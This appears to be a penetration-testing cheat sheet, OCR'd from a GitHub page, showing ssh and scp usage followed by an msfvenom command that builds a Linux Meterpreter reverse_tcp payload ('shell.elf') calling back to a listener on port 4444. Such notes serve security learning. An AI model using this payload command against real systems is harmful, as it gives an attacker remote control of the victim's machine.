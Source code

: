 ```bash
ssh <username>@<IP Address>
```
To use SCP to copy a file from your machine to a remote machine scp <path/to/local.file> <Remote System User Name>@<Remote System IP Address>:</location/on/remote/machine>
```bash
# Example of copying a file to a remote machine 192.168.1.50 using the 'admin' user. Note that the admin user in this case is a user on the remote machine. NOT a user on the local machine. Here we are copying the file onto the Desktop of the admin user on the remote machine.
scp my_file.txt admin@192.168.1.50:/home/admin/Desktop/
```
You can also copy a file from the remote system to your local system using the syntax: scp <Remote System User Name>@<Remote System IP Address>:</location/on/remote/machine/my_file.txt> /location/on/local/machine
Below we will use the same remote machine IP address of 192.168.1.50 and the same admin user. Note that here we are specifying our 'user' Desktop but you can also use the `.` to copy to your current location.
```bash
# Example of copying a file from a remote system to your local machine.
scp admin@192.168.1.50:/home/admin/Desktop/my_file.txt /home/user/Desktop
```
```bash
# Example of copying to your current location
scp admin@192.168.1.50:/home/admin/Desktop/my_file.txt .
```
### MsfVenom
Create a `shell.elf` exploit
```bash
msfvenom --arch x86 --platform linux --payload linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 --format elf -o /tmp/shell.elf
```
After running this command, the file `shell.elf` contains a program that, when run, will open a Meterpreter connection to your computer's port 4444.
<details><summary>Expand for explanation of flags.</summary></details>